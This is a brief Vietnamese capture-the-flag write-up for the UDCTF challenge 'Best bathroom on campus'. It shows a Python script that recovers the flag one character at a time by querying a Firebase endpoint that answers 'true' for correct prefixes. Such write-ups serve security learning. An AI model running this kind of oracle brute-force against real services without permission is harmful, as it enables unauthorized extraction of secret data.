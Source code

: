 # Best bathroom on campus

![Untitled](Best%20bathroom%20on%20campus%20e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled.png)

- Truy cập vào trang web ta thấy như sau, ta thấy khi giá trị UDCTF được truyền vào thì trả về giá trị là true.

![Untitled](Best%20bathroom%20on%20campus%20e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled%201.png)

- Mình thử test format flag là UDCTF{ thì vẫn trả về true, có vẻ như bài này ta chỉ cần nhập vào chuỗi nằm trong flag thì sẽ trả về true, không thì sẽ là false, lúc này thì mình sẽ code python để tự động hóa

![Untitled](Best%20bathroom%20on%20campus%20e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled%202.png)

```python
import requests

url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/'

arr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'!$%()*+,-.:;@[]^_`{|}~"
# arr = "$%&'()*+,-./:;<=>?@[]^_`{|}~"
result = 'UDCTF{'

while True:
  for char in arr:
    print(f"Testing with {result + char}")
    
    test_url = url + result + char + '.json' 
    response = requests.get(test_url)
    
    if response.text.find('true') != -1:
      result += char
      print(f"Found character: {char}")
      print(f"Result: {result}")
      break

    if char == '}':
      print("Final flag:", result)
      exit()

  print("Start over with full arr")
```

![Untitled](Best%20bathroom%20on%20campus%20e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled%203.png)